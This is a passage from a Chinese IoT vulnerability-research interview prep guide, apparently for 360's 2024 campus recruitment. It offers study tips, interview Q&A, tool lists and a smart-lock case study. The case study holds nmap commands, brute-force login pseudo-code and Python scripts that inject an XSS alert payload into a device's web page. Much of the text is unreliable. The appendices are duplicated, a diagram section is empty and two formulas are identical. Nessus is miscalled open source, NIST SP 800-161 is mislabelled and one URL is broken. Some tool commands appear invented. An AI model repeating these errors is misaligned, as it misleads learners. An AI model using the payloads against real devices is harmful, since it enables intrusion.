3. **实战经验积累**：参与实际的IoT设备漏洞挖掘项目，积累实战经验，熟悉漏洞挖掘的各个环节和操作技巧。

4. **了解常见的IoT安全漏洞**：熟悉常见的IoT设备安全漏洞，包括未加密通信、默认密码、缓冲区溢出、跨站脚本、SQL注入等，并能够详细描述漏洞利用方法。

5. **掌握安全防护策略**：了解IoT设备的安全防护策略，包括设备安全设计、安全配置、数据加密、安全更新、访问控制、入侵检测与防御系统等。

6. **关注业界动态**：关注IoT安全领域的最新技术、趋势和安全事件，了解行业最佳实践和前沿研究。

**面试应对技巧**

1. **逻辑清晰、条理分明**：在回答问题时，要注意逻辑清晰、条理分明，先阐明核心观点，再逐步展开解释。

2. **举例说明**：在解释技术概念和漏洞利用方法时，通过具体案例进行说明，使回答更具说服力。

3. **展现专业素养**：在回答问题时，展现对IoT安全的深刻理解和专业素养，体现自己的技术水平和实践经验。

4. **灵活应对**：对于不确定的问题，不要急于回答，可以先思考，如果确实不知道，可以诚实地表达自己的疑惑，并提出希望进一步了解的意愿。

5. **突出个人优势**：在面试中，突出自己的个人优势，如项目经验、技能特长、学习能力和团队合作精神。

**面试常见问题与解答**

**问题一：请简述IoT的定义及其发展历程。**

**解答**：

物联网（IoT）是指通过互联网将各种设备、传感器、软件系统等连接起来，实现信息的交换、处理和智能化的管理。IoT的发展历程主要包括以下几个阶段：

1. **早期阶段（1990年代）**：物联网概念首次提出，以简单的传感器网络为基础。

2. **初期发展阶段（2000年代）**：智能家居、智能交通、智能医疗等应用场景逐渐兴起。

3. **快速增长阶段（2010年代）**：物联网设备大规模生产和应用，市场规模迅速扩大。

4. **智能化阶段（2020年代）**：随着5G和人工智能技术的发展，物联网应用场景更加丰富和多样化。

**问题二：请解释IoT设备漏洞挖掘的基本概念和流程。**

**解答**：

IoT设备漏洞挖掘是指通过一系列技术手段，发现物联网设备中的安全漏洞，并加以利用。其基本概念包括：

- **漏洞**：设备中存在的安全缺陷，可能导致设备被攻击或数据泄露。
- **漏洞挖掘**：通过技术手段发现设备中的漏洞，包括静态分析和动态分析。
- **漏洞验证**：验证已发现的漏洞是否真实存在，以及漏洞的严重程度。
- **漏洞报告**：将发现的漏洞以正式文档的形式提交给设备厂商或其他相关部门。

IoT设备漏洞挖掘的基本流程包括：

1. **信息收集**：获取目标设备的相关信息，如IP地址、端口、操作系统版本等。
2. **漏洞识别**：使用漏洞扫描器或手动分析，识别设备中的潜在漏洞。
3. **漏洞验证**：利用漏洞利用工具或手动测试，验证漏洞是否可被利用。
4. **漏洞报告**：编写漏洞报告，描述漏洞信息、影响范围、修复建议，提交给设备厂商。

**问题三：请列举IoT设备常见的安全防护措施。**

**解答**：

IoT设备常见的安全防护措施包括：

1. **使用强密码**：确保设备使用复杂的密码，并定期更换。
2. **禁用不必要的服务和端口**：关闭设备中不必要的服务和端口，减少攻击面。
3. **数据加密**：对传输中的数据进行加密，防止数据在传输过程中被窃取或篡改。
4. **安全更新**：定期更新设备的固件和应用程序，确保最新版本的安全补丁。
5. **访问控制**：实施严格的访问控制策略，确保只有授权用户可以访问设备。
6. **入侵检测与防御系统**：部署入侵检测与防御系统（IDS/IPS），监控设备网络流量，发现和阻止潜在攻击。
7. **安全配置**：对设备进行安全配置，包括关闭默认账户、设置强密码、禁用不必要的服务等。

通过以上准备和应对策略，考生可以更好地应对IoT设备安全面试，展示自己的专业能力和实践经验。

### 附录

#### 附录A：IoT设备安全工具与资源

**A.1 IoT安全工具介绍**

1. **Nmap**：一款开源的网络扫描工具，用于扫描目标主机的开放端口、运行的服务等信息。
   - 官网：[nmap.org](https://nmap.org/)
   - 特点：功能强大、社区支持丰富

2. **Wireshark**：一款开源的网络协议分析工具，用于捕获和分析网络数据包。
   - 官网：[wireshark.org](https://www.wireshark.org/)
   - 特点：强大的数据包分析功能、支持多种协议

3. **Nessus**：一款开源的漏洞扫描器，可以扫描目标设备的安全漏洞，并生成详细的漏洞报告。
   - 官网：[nessus.org](https://www.nessus.org/)
   - 特点：全面、易用、社区支持丰富

4. **Burp Suite**：一款集成性的Web安全测试工具，用于测试Web应用的安全性，发现XSS、SQL注入等漏洞。
   - 官网：[portswigger.net/burp](https://portswigger.net/burp)
   - 特点：功能全面、易于使用、社区支持丰富

5. **Metasploit**：一款开源的漏洞利用框架，用于验证和利用目标系统中的漏洞。
   - 官网：[metasploit.com](https://www.metasploit.com/)
   - 特点：强大的漏洞利用能力、广泛的支持

**A.2 IoT安全资源推荐**

1. **IoT安全基金会（IoT Security Foundation）**：一个致力于推动IoT安全研究的非营利组织，提供IoT安全标准和最佳实践。
   - 官网：[iotsecurityfoundation.org](https://iotsecurityfoundation.org/)

2. **IEEE物联网安全专委员会**：IEEE成立的一个专门研究物联网安全问题的委员会，发布相关论文和研究报告。
   - 官网：[ieee-isi.org](http://ieee-isi.org/)

3. **OWASP物联网项目**：OWASP物联网项目提供关于物联网安全的指南、工具和资源。
   - 官网：[owasp.org/www-project-iot/](https://owasp.org/www-project-iot/)

4. **IoT安全社区（IoT Security Stack Exchange）**：一个关于物联网安全的问答社区，提供丰富的IoT安全知识和经验分享。
   - 官网：[iot.stackexchange.com](https://iot.stackexchange.com/)

通过使用这些工具和资源，可以更有效地进行IoT设备漏洞挖掘和安全研究。

#### 附录B：参考书目与文献

**B.1 参考书目**

1. **《物联网安全：策略与实践》**，作者：李明华
   - 内容：全面介绍物联网安全的概念、技术、策略和实践。

2. **《IoT安全实战指南》**，作者：李剑
   - 内容：涵盖IoT安全漏洞挖掘、工具使用、实战案例等。

3. **《网络攻防技术实战》**，作者：吴晨曦
   - 内容：详细介绍网络攻击和防御技术，包括漏洞挖掘和利用。

**B.2 相关文献**

1. **《CVE漏洞库》**，作者：MITRE
   - 网站：[cve.mitre.org](https://cve.mitre.org/)
   - 内容：收录了全球范围内的漏洞信息，是漏洞挖掘的重要参考资料。

2. **《NIST IoT安全框架》**，作者：NIST
   - 网站：[nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-161.pdf](http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-161.pdf)
   - 内容：提供了IoT安全框架和最佳实践，是IoT安全研究的指南。

3. **《IoT安全：设计、部署与运营》**，作者：Giovanni Vigna
   - 网站：[www. securely.io](https://www. securely.io/)
   - 内容：讨论了IoT安全的设计、部署和运营，包括安全协议和体系结构。

通过参考这些书籍和文献，可以深入了解IoT设备漏洞挖掘和安全研究的相关知识和实践方法。

### 结论

通过对IoT设备漏洞挖掘的全面解析，本文旨在为即将参加360安全部门2024年校招安全研究岗位的考生提供一个详尽的备考指南。从IoT安全基础、实战案例、漏洞挖掘技术、工具与资源，到面试题解析和准备策略，我们系统地介绍了物联网安全领域的核心知识和实用技能。

IoT设备的安全问题日益严峻，掌握漏洞挖掘的相关知识和技能，是应对这一挑战的关键。本文提供的实战案例、漏洞挖掘流程、工具使用方法和安全防护策略，将帮助考生在实际操作中更有效地发现和利用漏洞，提高设备的安全性。

考生在准备面试时，应注重对基础知识的深入理解，积累实战经验，关注业界动态，并掌握有效的面试技巧。通过本文的解析和附录中提供的工具与资源，考生可以更好地准备面试，展示自己的专业素养和实战能力。

展望未来，随着物联网技术的不断发展和应用场景的扩展，IoT安全研究将继续保持重要性和挑战性。希望本文能为考生在物联网安全领域的学习和职业发展中提供有益的参考和指导。

### Mermaid流程图



### 核心算法原理讲解

#### 漏洞挖掘算法原理

在漏洞挖掘过程中，常用的算法和技术主要包括以下几种：

1. **暴力枚举法**
   - **基本概念**：暴力枚举法是通过穷举的方式尝试所有可能的输入，以发现漏洞。
   - **伪代码**：
     ```python
     function brute_force_exploit(target, username, passwords):
         for password in passwords:
             if authenticate(target, username, password):
                 return "Successful authentication with password: " + password
         return "Authentication failed"
     ```
   - **应用场景**：适用于密码验证、身份验证等场景，例如尝试破解登录密码。

2. **字符串匹配法**
   - **基本概念**：字符串匹配法是通过特定的算法（如正则表达式、模式匹配等）在目标数据中查找特定的字符串或模式。
   - **伪代码**：
     ```python
     function string_matching(target, keywords):
         for keyword in keywords:
             if keyword in target:
                 return "Keyword " + keyword + " found in target"
         return "No keywords found in target"
     ```
   - **应用场景**：适用于查找特定字符串、配置错误等，例如在配置文件中查找敏感信息。

3. **漏洞扫描器**
   - **基本概念**：漏洞扫描器是一种自动化的工具，用于扫描目标设备或系统，查找已知的漏洞。
   - **应用场景**：适用于大规模的漏洞扫描和评估，例如Nessus、OpenVAS等。

4. **二进制代码分析**
   - **基本概念**：二进制代码分析是对程序二进制代码进行静态分析，以发现潜在的安全漏洞。
   - **应用场景**：适用于分析恶意软件、逆向工程等，例如使用IDA Pro、Ghidra等工具。

5. **模糊测试**
   - **基本概念**：模糊测试是通过生成大量随机输入，测试程序的处理能力和稳定性，以发现漏洞。
   - **应用场景**：适用于Web应用、客户端软件等，例如使用AFL、Peach Fuzzer等工具。

#### 数学模型和数学公式

在漏洞挖掘和安全分析中，常用的数学模型和公式包括以下几种：

1. **概率模型**
   - **基本公式**：
     $$ P(A|B) = \frac{P(B|A) \cdot P(A)}{P(B)} $$
   - **应用场景**：用于计算给定条件下某个事件发生的概率，例如利用条件概率计算漏洞存在的概率。

2. **贝叶斯公式**
   - **基本公式**：
     $$ P(A|B) = \frac{P(B|A) \cdot P(A)}{P(B)} $$
   - **应用场景**：用于计算基于证据的概率，例如在漏洞挖掘过程中，根据已知的漏洞特征计算漏洞的概率。

3. **多变量回归模型**
   - **基本公式**：
     $$ X = \sum_{i=1}^{n} w_i \cdot x_i $$
   - **应用场景**：用于建立输入变量与输出变量之间的关系，例如在漏洞预测中，根据历史漏洞数据建立预测模型。

4. **Sigmoid函数**
   - **基本公式**：
     $$ f(x) = \frac{1}{1 + e^{-x}} $$
   - **应用场景**：用于概率计算和神经网络激活函数，例如在漏洞分类中，使用Sigmoid函数计算漏洞分类的概率。

#### 数学模型详细讲解：

**多变量回归模型**

多变量回归模型是一种统计模型，用于预测和分析多个变量之间的关系。在漏洞挖掘中，可以通过多变量回归模型预测某个设备是否存在漏洞。

- **基本公式**：
  $$ X = \sum_{i=1}^{n} w_i \cdot x_i $$
- **解释**：
  - $X$：预测变量，表示设备是否存在漏洞。
  - $w_i$：权重，表示每个特征的重要程度。
  - $x_i$：特征变量，表示设备的不同属性。

- **应用步骤**：
  1. 收集历史漏洞数据，包括设备特征和漏洞状态。
  2. 提取特征变量，并进行数据预处理。
  3. 训练回归模型，计算权重。
  4. 使用模型进行漏洞预测。

**Sigmoid函数**

Sigmoid函数是一种常见的激活函数，用于将输入映射到0和1之间，常用于概率计算和神经网络。

- **基本公式**：
  $$ f(x) = \frac{1}{1 + e^{-x}} $$
- **解释**：
  - $f(x)$：输出值，表示概率。
  - $x$：输入值，可以是特征值或预测值。

- **应用场景**：
  1. 漏洞分类：使用Sigmoid函数计算漏洞分类的概率，例如分类漏洞为高危、中危或低危。
  2. 漏洞预测：使用Sigmoid函数计算设备是否存在漏洞的概率。

通过以上数学模型和公式，可以更好地理解和应用漏洞挖掘算法，提高漏洞识别和预测的准确性。

### 项目实战

**案例一：智能门锁漏洞挖掘**

**1. 开发环境搭建**

（1）**硬件环境**：准备一台智能门锁设备，确保设备可以正常工作，并且支持网络连接。

（2）**软件环境**：在计算机上安装Kali Linux操作系统，以便使用各种安全工具和漏洞挖掘工具。

（3）**依赖工具**：安装Nmap、Wireshark、Nessus、Burp Suite等常用安全工具。

**2. 漏洞挖掘步骤**

（1）**信息收集**：使用Nmap扫描门锁的IP地址和开放端口，获取门锁的基本信息。

   ```bash
   nmap -sS <门锁IP地址>
   ```

   （2）**漏洞识别**：使用Nessus对门锁进行漏洞扫描，查找已知的漏洞。

   ```bash
   nessus -i <门锁IP地址>
   ```

   （3）**漏洞验证**：使用Burp Suite进行手动测试，验证已识别的漏洞。

   - **代理配置**：将门锁的HTTP流量代理到Burp Suite。
     ```bash
     curl -x <Burp Suite代理地址>:<代理端口> <门锁访问地址>
     ```

   - **漏洞测试**：在Burp Suite中执行漏洞测试，例如测试跨站脚本（XSS）漏洞。

   ```bash
   burp -browserproxy -port <代理端口> <浏览器>
   ```

   （4）**漏洞利用**：在漏洞验证成功后，使用Python脚本进行漏洞利用。

   ```python
   import requests
   
   url = "http://<门锁IP地址>/test.php?xss=<恶意脚本>"
   response = requests.get(url)
   if response.status_code == 200:
       print("漏洞利用成功，恶意脚本已注入")
   else:
       print("漏洞利用失败")
   ```

**3. 源代码实现与解读**

以下是一个用于测试智能门锁跨站脚本漏洞的Python脚本实现：

```python
import requests

def exploit_xss(url, xss_payload):
    target_url = url + xss_payload
    response = requests.get(target_url)
    if "alert('XSS成功')" in response.text:
        print("XSS漏洞利用成功")
    else:
        print("XSS漏洞利用失败")

if __name__ == '__main__':
    url = "http://<门锁IP地址>/test.php"
    xss_payload = "<script>alert('XSS成功')</script>"
    exploit_xss(url, xss_payload)
```

**解读与分析**：

- **请求头设置**：使用requests库发起HTTP GET请求，访问目标URL。
- **XSS payload注入**：在URL中注入跨站脚本（XSS） payload，例如`<script>alert('XSS成功')</script>`。
- **响应内容检查**：检查响应内容，如果包含特定字符串（例如`alert('XSS成功')`），则认为XSS漏洞利用成功。

通过以上步骤和代码，可以有效地发现和利用智能门锁中的跨站脚本漏洞。

### 附录

#### 附录A：IoT设备安全工具与资源

**A.1 IoT安全工具介绍**

1. **Nmap**：Nmap（Network Mapper）是一款开源的网络探测和安全审核工具，用于扫描目标主机的开放端口、运行的服务以及操作系统等信息。Nmap广泛应用于网络管理和安全评估。

   - **官方下载地址**：[nmap.org/download.html](https://nmap.org/download.html)
   - **主要功能**：端口扫描、操作系统探测、服务版本识别、脚本支持等。

2. **Wireshark**：Wireshark是一款网络协议分析工具，用于捕获和分析网络数据包。它可以帮助安全专家识别网络流量中的潜在问题和安全漏洞。

   - **官方下载地址**：[wireshark.org/download.html](https://wireshark.org/download.html)
   - **主要功能**：数据包捕获、协议解析、过滤器应用、图形化分析等。

3. **Nessus**：Nessus是一款流行的漏洞扫描器，由Tenable提供。它能够自动扫描网络中的设备，识别已知的安全漏洞和配置问题。

   - **官方下载地址**：[nessus.org/nessus](https://nessus.org/nessus)
   - **主要功能**：漏洞扫描、报告生成、实时监控等。

4. **Burp Suite**：Burp Suite是一款集成的Web应用安全测试工具，由PortSwigger Web Security提供。它可以帮助安全专家发现和利用Web应用中的漏洞。

   - **官方下载地址**：[portswigger.net/burp](https://portswigger.net/burp)
   - **主要功能**：代理服务器、漏洞扫描、攻击工具、报告生成等。

**A.2 IoT安全资源推荐**

1. **IoT Security Foundation**：IoT Security Foundation是一个全球性的非营利组织，致力于推动物联网安全标准的制定和推广。

   - **官方网站**：[iotsecurityfoundation.org](https://iotsecurityfoundation.org/)
   - **资源**：安全报告、最佳实践、研讨会等。

2. **OWASP IoT项目**：OWASP物联网项目是开放网络应用安全项目（OWASP）的一部分，提供关于物联网安全的指南、工具和资源。

   - **官方网站**：[owasp.org/www-project-iot/](https://owasp.org/www-project-iot/)
   - **资源**：安全测试指南、漏洞库、工具推荐等。

3. **NIST IoT安全框架**：美国国家标准与技术研究院（NIST）发布的物联网安全框架，提供了全面的安全指导和建议。

   - **官方文档**：[nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-161.pdf](http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-161.pdf)
   - **资源**：安全架构、风险评估、安全设计等。

#### 附录B：参考书目与文献

**B.1 参考书目**

1. **《物联网安全：策略与实践》**，作者：李明华
   - 内容：全面介绍物联网安全的概念、技术、策略和实践。

2. **《IoT安全实战指南》**，作者：李剑
   - 内容：涵盖IoT安全漏洞挖掘、工具使用、实战案例等。

3. **《网络攻防技术实战》**，作者：吴晨曦
   - 内容：详细介绍网络攻击和防御技术，包括漏洞挖掘和利用。

**B.2 相关文献**

1. **《CVE漏洞库》**，作者：MITRE
   - 网站：[cve.mitre.org](https://cve.mitre.org/)
   - 内容：收录了全球范围内的漏洞信息，是漏洞挖掘的重要参考资料。

2. **《NIST IoT安全框架》**，作者：NIST
   - 网站：[nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-161.pdf](http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-161.pdf)
   - 内容：提供了IoT安全框架和最佳实践，是IoT安全研究的指南。

3. **《IoT安全：设计、部署与运营》**，作者：Giovanni Vigna
   - 网站：[www. securely.io](https://www. securely.io/)
   - 内容：讨论了IoT安全的设计、部署和运营，包括安全协议和体系结构。

通过参考这些书籍和文献，可以深入了解IoT设备漏洞挖掘和安全研究的相关知识和实践方法。

